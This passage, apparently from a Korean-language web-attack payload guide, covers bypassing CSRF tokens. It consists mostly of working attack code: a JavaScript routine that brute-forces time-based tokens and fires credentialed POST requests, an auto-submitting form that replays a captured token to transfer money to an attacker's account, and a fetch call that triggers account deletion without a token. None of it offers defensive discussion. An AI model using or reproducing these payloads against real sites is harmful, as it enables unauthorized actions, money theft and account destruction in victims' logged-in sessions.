 
## 3. 특수 페이로드

### 3.1. CSRF 토큰 우회 기법

#### 3.1.1. 토큰 추측 및 브루트포스
```javascript
// 약한 토큰 생성 알고리즘 공격
function bruteForceToken() {
    var possibleTokens = [];
    
    // 시간 기반 토큰 추측
    var currentTime = Date.now();
    for (var i = -1000; i <= 1000; i++) {
        var timestamp = currentTime + i;
        var token = btoa(timestamp.toString()).substr(0, 16);
        possibleTokens.push(token);
    }
    
    // 각 토큰으로 요청 시도
    possibleTokens.forEach(function(token) {
        fetch('http://target.com/api/sensitive_action', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
                'X-CSRF-Token': token
            },
            body: JSON.stringify({action: 'malicious'}),
            credentials: 'include'
        });
    });
}
```

#### 3.1.2. 토큰 재사용 공격
```html

<form action="http://target.com/transfer" method="POST">
    <input type="hidden" name="csrf_token" value="[이전에 획득한 유효한 토큰]">
    <input type="hidden" name="amount" value="10000">
    <input type="hidden" name="to_account" value="attacker">
</form>
<script>document.forms[0].submit();</script>
```

#### 3.1.3. 토큰 누락 시 기본값 처리 악용
```javascript
// 토큰이 없을 때 기본 처리 로직 악용
fetch('http://target.com/api/action', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
        // CSRF 토큰 헤더 의도적으로 생략
    },
    body: JSON.stringify({
        action: 'delete_account'
    }),
    credentials: 'include'
});
```
